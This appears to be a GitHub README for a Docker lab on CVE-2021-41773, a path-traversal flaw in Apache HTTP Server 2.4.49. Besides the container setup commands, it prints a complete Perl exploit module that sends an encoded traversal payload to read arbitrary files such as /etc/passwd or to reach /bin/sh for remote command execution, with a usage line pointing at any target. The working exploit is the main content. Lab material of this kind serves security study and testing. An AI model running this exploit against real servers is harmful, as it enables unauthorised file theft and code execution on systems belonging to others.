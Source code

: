<p align="center">
  <h3 align="center">CVE-2021-41773</h3>
  <p align="center">RCE & LFI on feature to path normalization in Apache HTTP Server</p>
</p>

---

### Description

CVE-2021-41773 is a vulnerability on Apache HTTP Server, based on the feature of path normalization, present in the version 2.4.49 of this software. Here, you find a container lab to emulate two vulnerabilities:

- File Disclouse:

```
$ docker build -t apache-default default_conf
$ docker run -dit --name apache-app -p 81:80 apache-default
```

- Remote Code Execution (RCE):

```
$ docker build -t apache-cgi cgi_mod_enable
$ docker run -dit --name apache-lab -p 82:80 apache-cgi
```

---

### Exploit

```perl
package Spellbook::Exploit::CVE_2021_41773 {
    use strict;
    use warnings;
    use Try::Tiny;
    use LWP::UserAgent;

    sub new {
        my ($self, $parameters)= @_;
        my ($help, $target, $file, $command);

        Getopt::Long::GetOptionsFromArray (
            $parameters,
            "h|help"      => \$help,
            "t|target=s"  => \$target,
            "f|file=s"    => \$file,
            "c|command=s" => \$command,
        );

        if ($target) {
            if (!$file) { $file = "/etc/passwd"; }

            my $payload = "/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/";

            if ($command) {
                $payload = $payload . "/bin/sh";
            }

            else {
                $payload = $payload . $file;
            }

            my $useragent = LWP::UserAgent -> new();
            my $request   = $useragent -> get(
                $target . $payload, 
                Content => $command || " "
            );

            if ($request -> code() == 200) {
                return $request -> content();
            }
        }

        if ($help) {
            return "
                \rExploit::CVE_2021_41773
                \r=======================
                \r-h, --help     See this menu
                \r-t, --target   Define a target
                \r-f, --file     Define a file to read
                \r-c, --command  Arbitrary code execution\n\n";
        }

        return 0;
    }
}

1;
```

*Spellbook Exploit: [https://github.com/htrgouvea/spellbook/blob/master/lib/Spellbook/Exploit/CVE_2021_41773.pm](https://github.com/htrgouvea/spellbook/blob/master/lib/Spellbook/Exploit/CVE_2021_41773.pm)*

Demo:

```bash
$ perl spellbook.pl -m Exploit::CVE_2021_41773 - https://target.com/
```

---

### References

1. [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773)
2. [https://httpd.apache.org/security/vulnerabilities_24.html](https://httpd.apache.org/security/vulnerabilities_24.html)